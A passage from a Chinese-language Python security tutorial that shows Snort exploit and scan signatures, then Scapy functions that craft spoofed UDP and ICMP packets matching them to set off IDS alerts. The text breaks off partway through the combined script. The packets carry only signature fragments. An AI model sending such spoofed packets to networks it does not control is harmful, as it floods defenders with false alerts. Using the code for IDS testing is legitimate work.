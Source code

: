 让我们看看稍微复杂的规则，Snort 下的`exploit.rules`签名文件。在这里，一系列的特殊字节将会为 ntalkd x86 Linux 溢出和 Linux mountd 溢出生成警告。

```
alert udp $EXTERNAL_NET any -> $HOME_NET 518 (msg:"EXPLOIT ntalkd x86
Linux overflow"; content:"|01 03 00 00 00 00 00 01 00 02 02 E8|";
reference:bugtraq,210; classtype:attempted-admin; sid:313;
rev:4;)
alert udp $EXTERNAL_NET any -> $HOME_NET 635 (msg:"EXPLOIT x86 Linux
mountd overflow"; content:"^|B0 02 89 06 FE C8 89|F|04 B0 06 89|F";
reference:bugtraq,121; reference:cve,1999-0002; classtype
:attempted-admin; sid:315; rev:6;) 
```

为了生成包含原始字节的数据包，我们将利用`\x`后面跟随 16 进制字符来编码字节。在第一个警报，会生成一个数据包将会被 ntalkd Linux 溢出签名所检测到。第二个数据包，我们将接合 16 进制编码和标准的 ASCII 字符。注意`98|F|`编码为`\x89`标示包含了原始的字节加了一个 ASCII 字符。下面的数据包将在试图攻击时生成报警。

```
def exploitTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=518) /Raw(load="\x01\x03\x00\x00\x00\x00\x00\x01\x00\x02\x02\xE8")
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src, dst=dst) / UDP(dport=635) /Raw(load="^\xB0\x02\x89\x06\xFE\xC8\x89F\x04\xB0\x06\x89F")
send(pkt, iface=iface, count=count) 
```

最后，它会很好的欺骗一些侦查和扫描。当我们检查 Snort 的扫描规则时发现两个我们可以制作数据包的规则。两个规则通过特定的端口和特定原始内容的 UDP 协议检测恶意行为。很容易制作这种数据包。

```
alert udp $EXTERNAL_NET any -> $HOME_NET 7 (msg:"SCAN cybercop udp
bomb"; content:"cybercop"; reference:arachnids,363; classtype:bad-
unknown; sid:636; rev:1;)
alert udp $EXTERNAL_NET any -> $HOME_NET 10080:10081 (msg:"SCAN Amanda
client version request"; content:"Amanda"; nocase; classtype:attempted-
recon; sid:634; rev:2;) 
```

我们生成两个对应规则的扫描工具的数据包。当生成两个合适的 UDP 数据包之后我们发送到目标主机。

```
def scanTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=7) /Raw(load='cybercop')
    send(pkt)
    pkt = IP(src=src, dst=dst) / UDP(dport=10080) /Raw(load='Amanda')
send(pkt, iface=iface, count=count) 
```

现在，我们有数据包可以生成拒绝服务攻击，渗透攻击和扫描侦查的警告。我们把代码组合在一起，添加一些选项解析。注意，用户必须输入目标地址否则程序会退出。如果用户没有输入源地址，我们会生成一个随机的源地址。如果用户不能指定发送制作的数据包多少次，我们将只发送一次。该脚本使用缺省的网卡 eth0，除非用户指定。虽然我们的目的文本很短，你可以继续添加脚本生成测试其他攻击类型的警告。

```
# coding=UTF-8
import optparse
from scapy.all import *
from random import randint

def ddosTest(src, dst, iface, count):
    pkt=IP(src=src,dst=dst)/ICMP(type=8,id=678)/Raw(load='1234')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0)/Raw(load='AAAAAAAAAA')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/UDP(dport=31335)/Raw(load='PONG')
    send(pkt, iface=iface, count=count)
    pkt = IP(src=src,dst=dst)/ICMP(type=0,id=456)
    send(pkt, iface=iface, count=count)

def exploitTest(src, dst, iface, count):
    pkt = IP(src=src, dst=dst) / UDP(dport=518) /Raw(load="\x01\x03\x00\x00\x00\x00\x00\x01\x00\x02\x02\xE8")
```